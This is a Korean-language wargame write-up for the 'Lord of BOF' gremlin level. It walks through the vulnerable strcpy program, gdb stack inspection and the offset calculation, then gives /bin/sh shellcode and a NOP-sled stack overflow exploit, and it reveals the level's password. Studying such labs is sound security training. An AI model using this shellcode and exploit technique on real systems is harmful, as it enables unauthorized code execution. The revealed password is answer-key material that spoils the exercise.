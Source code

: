 # [WriteUp]The Lord of BOF - gate → gremlin

:black_nib:ChyKor12(sjjo0225@gmail.com)

---

```bash
[gate@localhost gate]$ cat gremlin.c
/*
	The Lord of the BOF : The Fellowship of the BOF 
	- gremlin
	- simple BOF
*/
 
int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}

```

`home` 디렉토리에서는 권한 문제 때문에 gdb로 바이너리를 분석할 수 없어서 `/tmp`로 복사해서 분석해야 한다.

```bash
[gate@localhost gate]$ cp gremlin /tmp
```

gdb에서, `strcpy()`가 호출되고 난 직후에 break point를 걸고 스택의 상태를 살펴보자.

```bash
(gdb) b* main+59
Breakpoint 1 at 0x804846b
(gdb) r AAAAAAAA
Starting program: /tmp/gremlin AAAAAAAA

Breakpoint 1, 0x804846b in main ()
(gdb) x/80wx $esp
0xbffffcc0:	0xbffffbc8	0xbffffe15	0x41414141	0x41414141
0xbffffcd0:	0x40029a00	0x40022004	0x40013868	0x40013ed0
0xbffffce0:	0x08048200	0x00003d60	0x40021ca0	0x000006f3
0xbffffcf0:	0x40021fd0	0x4001ad70	0x400143e0	0x00000003
0xbffffd00:	0x40014650	0x00000001	0xbffffc20	0x08048170
0xbffffd10:	0x400140d4	0x078e530f	0xbffffc9c	0x08048256
0xbffffd20:	0x40021ca0	0x400143e0	0xbffffcac	0x400261a6
0xbffffd30:	0x4001ead0	0x400143e0	0x40020290	0x400143e0
0xbffffd40:	0x400140d4	0x0177ff8e	0xbffffccc	0x08048244
0xbffffd50:	0x40021590	0x400143e0	0xbfffffe4	0xbffffcbf
0xbffffd60:	0x00000020	0x401081ec	0xbffffca0	0x4000a7fd
0xbffffd70:	0x40010c27	0x40014680	0x00000007	0x4000a74e
0xbffffd80:	0x08049510	0x4000ae60	0xbffffd14	0x40013ed0
0xbffffd90:	0x08048170	0x0804951c	0x08048256	0x40021ca0
0xbffffda0:	0xbffffcc8	0x4000a970	0x400f855b	0x08049510
0xbffffdb0:	0x4000ae60	0xbffffd14	0xbffffcc8	0x0804841b
0xbffffdc0:	0x080494fc	0x08049510	0xbffffce8	0x400309cb
0xbffffdd0:	0x00000002	0xbffffd14	0xbffffd20	0x40013868
0xbffffde0:	0x00000002	0x08048380	0x00000000	0x080483a1
0xbffffdf0:	0x08048430	0x00000002	0xbffffd14	0x080482e0
(gdb) info register ebp
ebp            0xbffffdc8	-1073742648
(gdb) p/x 0xbffffdcc - 0xbffffcc8
$1 = 0x104
```

return address는 `$ebp+4`에 있고, 입력이 시작되는 주소가 buffer의 주소이기 때문에 두 주소의 차이를 구하면 return address를 덮기 전에 얼마나 채워야 하는지 알 수 있다. 디버깅할 때와 실제로 프로그램을 실행할 때 주소가 조금씩 달라지기 때문에 적당히 중간쯤에 쉘코드를 넣어 놓고, 그 이외의 공간은 모두 NOP로 채우고 return address를 buffer의 앞부분의 주소로 덮으면 NOP은 모두 스킵되고 쉘코드가 실행되어 쉘을 획득할 수 있을 것이다.(NOP sled)

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80`

32비트 프로그램에서 system call로 `"/bin/sh"`를 실행하는 쉘코드이다. `strcpy()`로 문자열을 복사하기 때문에 중간에 `\x00`이 있으면 안 된다.

```bash
<99\xb0\x0b\xcd\x80"+"\x90"*136+"\x10\xfd\xff\xbf"'`
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��PS�ᙰ
                                                                                                                       �������������������������������������������������������������������������������������������������������������������������������������������
bash$ whoami
gate
```

이제 이 익스플로잇을 그대로 `home`디렉토리에서 진행하면 다음 레벨로 가는 password를 얻을 수 있다.

```bash
<99\xb0\x0b\xcd\x80"+"\x90"*136+"\x10\xfd\xff\xbf"'`
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��PS�ᙰ
                                                                                                                       �������������������������������������������������������������������������������������������������������������������������������������������
bash$ whoami
gremlin
bash$ my-pass
euid = 501
hello bof world
```

